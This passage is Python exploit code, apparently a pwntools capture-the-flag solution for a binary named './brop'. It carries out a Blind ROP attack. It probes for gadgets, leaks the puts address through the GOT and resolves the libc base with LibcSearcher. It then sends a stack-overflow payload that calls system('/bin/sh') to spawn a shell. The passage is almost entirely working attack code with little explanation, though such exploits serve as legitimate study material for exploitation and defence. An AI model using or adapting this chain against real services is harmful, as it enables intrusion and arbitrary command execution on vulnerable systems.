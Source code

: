 ```python
        info('Testing 0x%x'%brop_gadgets)
        if get_brop_gadget(length, stop_gadget, brop_gadgets):
            if check_BROP_gadgets(brop_gadgets, length):
                success('success in finding brop gadgets: 0x%x', brop_gadgets)
                break
        else:
            brop_gadgets += 1
    '''
    pop_rdi_ret = brop_gadgets + 9
    # puts_addr = get_puts_addr(length, pop_rdi_ret, stop_gadget)
    # puts_addr = get_puts_start_addr(
    #    length, pop_rdi_ret, stop_gadget, puts_addr)
    puts_addr = 0x400560
    '''
    get puts_got
    result = b""
    addr = 0x400000
    while addr < 0x401000:
        info("starting to deal {}".format(hex(addr)))
        data = leak(length, pop_rdi_ret, puts_addr, addr,stop_gadget)
        if data is None:
            continue
        else:
            result += data
        addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)
    '''

   # retn_addr = get_retn_gadget(length, stop_gadget)

    retn_addr = 0x400541
    puts_got = 0x601018
    #sh = remote('127.0.0.1', 10001)
    context(log_level='debug')
    sh = process('./brop')
    sh.recvuntil('password?\n')
    payload = length*b'a' + p64(pop_rdi_ret) + \
        p64(puts_got) + p64(retn_addr) + p64(puts_addr) + p64(stop_gadget)
    sh.sendline(payload)
    #data = sh.recvuntil(b'\nWelCome', drop=True)
    #puts_libc = u64(data.ljust(8, b'\x00'))
    puts_libc = u64(sh.recv(6).ljust(8, b'\x00'))
    libc = LibcSearcher('puts', puts_libc)
    libc_base = puts_libc - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    str_bin_sh = libc_base + libc.dump('str_bin_sh')


    '''
    libc = ELF('./libc.so')
    libc_base = puts_libc - libc.sym['puts']
    system_addr = libc_base + libc.sym['system']
    str_bin_sh = libc_base + next(libc.search(b'/bin/sh'))
    '''

    sh.recvuntil(b'password?\n')
    payload = length*b'a' +  \
        p64(pop_rdi_ret) + p64(str_bin_sh) +  p64(system_addr) + p64(stop_gadget)
    pid = util.proc.pidof(sh)[0]
    print(pid)
    pause()
    sh.sendline(payload)
```